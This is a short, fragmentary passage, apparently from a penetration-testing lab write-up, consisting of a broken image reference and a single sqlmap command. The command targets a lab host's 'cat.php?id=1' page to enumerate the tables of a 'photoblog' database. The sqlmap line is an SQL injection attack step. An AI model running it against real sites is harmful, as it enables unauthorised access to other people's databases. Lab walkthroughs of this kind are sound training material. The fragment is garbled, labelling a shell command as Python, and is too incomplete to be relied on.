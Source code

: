     ![](16.PNG)
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --table -D "photoblog"```